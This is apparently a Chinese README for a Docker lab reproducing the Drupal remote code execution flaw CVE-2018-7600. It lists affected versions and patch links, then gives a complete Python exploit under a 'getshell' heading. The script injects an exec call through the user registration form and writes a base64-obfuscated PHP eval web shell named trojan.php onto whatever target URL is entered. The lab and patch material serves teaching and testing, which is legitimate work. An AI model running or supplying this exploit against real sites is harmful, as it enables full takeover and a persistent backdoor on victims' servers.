

## 环境编译
```
docker-compose build
docker-compose up -d
```
##漏洞介绍

2018年3月28日，Drupal Security Team官方发布了一个重要的安全公告，宣称Drupal 6,7,8等多个子版本存在远程代码执行漏洞，攻击者可以利用该漏洞攻击Drupal系统的网站，执行恶意代码，最后完全控制被攻击的网站，该漏洞就是：CVE-2018-7600。
影响版本
Drupal 6.x，7.x，8.x

修复版本
Drupal 7.58，Drupal 8.5.1

修复方案
7.x版本，更新到 7.58 https://www.drupal.org/project/drupal/releases/7.58

8.5.x版本，更新到 8.5.1 https://www.drupal.org/project/drupal/releases/8.5.1

8.4.x 版本，更新到 8.4.6 https://www.drupal.org/project/drupal/releases/8.4.6

8.3.x 版本，更新到 8.3.9 https://www.drupal.org/project/drupal/releases/8.3.9

##getshell

```
#!/usr/bin/env python3
import sys
import requests

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)
# set verify = False if your proxy certificate is self signed
# remember to set proxies both for http and https
# 
# example:
# proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
# verify = False
proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgZXZhbCgkX1BPU1RbJ3NoYWRvdyddKTsgPz4=" |base64 -d |tee trojan.php'}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
check = requests.get(target + 'trojan.php', verify=verify)
if check.status_code != 200:
  sys.exit("Not exploitable")
print ('\nCheck: '+target+'trojan.php')

```




[链接一](https://paper.seebug.org/567/)
[链接二](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE)

